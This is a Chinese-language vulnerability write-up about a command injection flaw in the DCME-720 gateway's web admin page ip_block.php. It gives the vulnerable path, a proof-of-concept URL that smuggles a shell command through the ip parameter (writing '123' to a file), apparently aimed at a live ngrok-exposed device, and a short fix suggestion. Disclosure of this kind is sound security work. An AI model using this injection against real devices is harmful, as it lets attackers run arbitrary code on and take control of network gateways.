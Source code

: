 ```yaml
---
title: DCME-720
tags: 二进制
categories: 物联网
toc_number: true
date: 2025/8/4 11:20:53 
---
```


# 漏洞概述

DCME-720多核出口网关采用多核高性能处理器，结合专用ASIC交换芯片，针对大容量用户数、多流量、多业务种类的业务需求而推出的新一代高性能互联网出口网关。

 

其web管理后台存在命令执行漏洞，攻击者可以利用该系列漏洞在设备上执行任意代码以及控制设备。

固件下载地址：https://www.dcnetworks.com.cn/ruanjian.html?title=dcme-720

 

 

# 代码审计

代码位置在设备系统中/usr/local/www/function/audit/newstatistics/ip_block.php

 

![](ip_block.assets/1.png)

/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;[拼接命令];

 

 

 

 

 

# 验证

登录web管理后台，访问漏洞所在url：

http://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/ip_block.php

![](ip_block.assets/2.png)

构造payload：

?action=save&switch=1&ip=;echo 123 > 1.txt;

创建txt文件并写入数字

 

poc如下：
 https://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;echo%20123%20%3E%201.txt;

执行(显示修改失败但已命令执行成功)

![](ip_block.assets/3.png)

访问1.txt文件，发现创建并且写入成功

![](ip_block.assets/4.png)

 

 

# 修复建议

修改web后端php代码，对相关参数进行控制或过滤

 
